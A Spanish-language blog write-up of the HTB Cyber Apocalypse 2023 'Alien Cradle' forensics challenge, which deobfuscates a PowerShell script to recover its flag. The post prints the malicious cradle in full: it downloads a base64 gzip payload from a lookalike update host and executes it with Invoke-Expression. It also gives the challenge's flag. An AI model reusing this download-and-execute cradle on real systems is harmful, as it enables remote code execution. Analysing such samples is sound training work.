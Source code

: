 ```yaml
---
layout: single
title: Alien Cradle - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el segundo desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad very-easy y se nos proporciona un script de PowerShell pseudo-ofuscado que contiene la flag del desafío"
date: 2023-03-18
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - powershell
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** very-easy

## Enunciado

_En un intento de que los extraterrestres encontraran más información sobre la reliquia, lanzaron un ataque dirigido a los amigos cercanos y socios de Pandora que pueden conocer información secreta al respecto. Durante un incidente reciente que se cree que fue operado por ellos, Pandora localizó un extraño script de PowerShell de los registros de eventos, también llamado soporte de PowerShell. Estos scripts generalmente se usan para descargar y ejecutar la siguiente etapa del ataque. Sin embargo, parece ofuscado y Pandora no puede entenderlo. ¿Puedes ayudarla a desofuscarlo?_

## unzip - cat - echo - tr

Se nos entrega un archivo llamado "forensics_alien_cradle.zip" el cual en su interior posee un script de PowerShell llamado `cradle.ps1`.

Los archivos .ps1 se utilizan para almacenar y ejecutar secuencias de comandos de PowerShell de manera que puedan ser reutilizados y ejecutados de forma repetitiva. Los scripts de PowerShell pueden contener una serie de instrucciones, llamadas a cmdlets (comandos de PowerShell), funciones personalizadas y lógica de programación para automatizar tareas, manipular datos, administrar sistemas y más.
```
❯ unzip -l forensics_alien_cradle.zip
Archive:  forensics_alien_cradle.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      618  2023-03-06 12:29   cradle.ps1
---------                     -------
      618                     1 file

```
Luego de descompimir el achivo procedemos a verificar el contenido de `cradle.ps1`, el cual se ve de la siguiente manera:

```
❯ cat cradle.ps1

if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

A modo de información el script `cradle.ps1` realiza las siguientes acciones:
  - Verifica si el nombre de usuario actual no es 'secret_HQ\Arth' utilizando `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name.` Si el nombre de usuario no coincide, el script se detiene y finaliza la ejecución.
  - Crea una nueva instancia de `net.webclient` con `$w = New-Object net.webclient`.
  - Descarga el contenido de una URL específica utilizando `$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64')`. La URL se construye concatenando las cadenas separadas por el simbolo `+`.
  - Crea una nueva instancia de `IO.MemoryStream` utilizando `[Convert]::FromBase64String($d)` para decodificar el contenido descargado en base64.
  - Define una cadena indetificada como `$f` con el valor `'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`.
  - Utiliza `IO.StreamReader` y `IO.Compression.GzipStream` para descomprimir el contenido del archivo descargado. A continuación, utiliza `ReadToEnd()` para leer todo el contenido descomprimido.
  - Finalmente, se utiliza `IEX` (Invoke-Expression) para ejecutar el contenido obtenido en el paso anterior.

Resulta bastante sencillo encontrar la flag, ya que está declarada dentro del script como valor de la variable `$f`. En este caso, se utiliza el método de ofuscación de concatenación de cadenas. Para desofuscar el mensaje, procedemos a utilizar el siguiente comando:
```
❯ echo "'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}" | tr -dc '[:alnum:]{}_'
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}  
```

`tr -dc '[:alnum:]{}_'` : El comando `tr` en Linux es una utilidad que se utiliza para realizar operaciones de traducción o transliteración de caracteres en un flujo de texto. El nombre "tr" es una abreviatura de "translate" (traducir). En este caso se esta utilizando con el argumento `-d` para eliminar caracteres y -c para especificar los caracteres que queremos mantener. `'[:alnum:]{}_'` especifica que se deben mantener los caracteres alfanuméricos ([:alnum:]), los corchetes ({}) y los guiones bajos (\_). Los demás caracteres se eliminarán.

## Flag

**HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**
